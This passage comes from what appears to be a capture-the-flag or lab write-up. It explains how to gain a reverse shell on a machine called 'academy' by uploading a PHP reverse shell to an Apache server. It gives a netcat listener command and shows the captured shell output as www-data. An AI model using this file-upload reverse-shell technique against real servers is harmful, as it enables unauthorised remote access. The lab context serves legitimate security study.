 ![](/md-images/academy-5.png)
<br>
The fact that we can see our duck in the browser means _the webserver is executing the file_, so we know if we upload some code _it will be executed_.

### Reverse Shell

Knowing that this is an Apache server, we can assume that PHP is running the backend. Additionally, we can see that php files are being referenced in the URLs.

PHP _executes on the server_, so whatever PHP is capable of doing, we can leverage to execute a [rev shell](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/rev-shell.md). An easy PHP shell for us to use is [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentest monkey. Copy and paste the code, change the hostname and port values, and make sure [netcat](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/exploitation/netcat.md) is listening on the port.

```bash
nc -lvnp 44444
listening on [any] 44444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 51562
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 16:48:43 up 11:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Thu13   24:46m  0.04s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
$ www-data
```
